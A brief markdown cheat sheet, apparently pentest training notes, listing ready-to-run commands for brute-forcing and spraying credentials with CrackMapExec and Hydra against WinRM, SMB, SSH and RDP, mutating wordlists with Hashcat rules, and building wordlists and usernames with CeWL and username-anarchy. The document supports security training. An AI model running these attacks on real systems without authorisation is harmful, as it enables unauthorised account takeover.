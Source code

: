 # Common brute-force

### CrackMapExec

```bash
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

for winrm or smb etc

```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

### Hydra

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

change smb to ssh, rdp etc

### Hashcat

[Hashcat rules](https://hashcat.net/wiki/doku.php?id=rule\_based\_attack)

```shell-session
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

### CeWL

```shell-session
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```

### Automate list generator

```
./username-anarchy -i /home/ltnbob/names.txt 
```

